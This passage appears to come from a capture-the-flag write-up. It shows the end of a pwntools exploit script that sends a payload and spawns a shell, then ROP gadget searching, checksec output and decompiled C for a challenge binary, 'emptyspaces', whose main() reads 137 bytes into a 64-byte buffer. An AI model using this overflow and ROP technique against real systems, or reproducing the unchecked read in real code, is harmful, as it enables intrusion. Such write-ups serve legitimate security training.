 ```python
    if type(p) is not int:
        exploit += p
    else:
        exploit += p32(p)
input("[2nd stage] press any key to send...")
r.send(exploit)

input("press any key to spawn a shell...")
r.interactive()
```

### emptyspaces (64-bit `ROP` chain)

```bash
$ file easyrop
easyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=b944b910db4096bc5126a7f2d9285d2a06636a0b, not stripped
```

It is statically linked binary, which means that `libc` is already located into the executable itself. That's why Ghidra lists lots of functions in the code. As a consequence, we can look for gadgets directly into the binary:

```python
>>> e = ELF('./emptyspaces')
>>> rop = ROP(e)
>>> rop.find_gadget(['pop rdi','ret'])
>>> Gadget(0x400696, ['pop rdi', 'ret'], ['rdi'], 0x8)
```

Moreover:

```shell
❯ pwn checksec ./emptyspaces
[*] '/home/zerocool/chall/solved/emptyspaces/emptyspaces'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Actually this is weird because there's no canary in the binary.

**Note**: if the program crashes it is useful to do a `dmesg` to obtain additional info about it. As for security measures:

#### the code

`main`

```c
int main(void)

{
  char buf [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  puts("What shall we use\nTo fill the empty spaces\nWhere we used to pwn?");
  read(0,buf,137);
                    /* WARNING: Subroutine does not return */
  empty(buf);
}
```

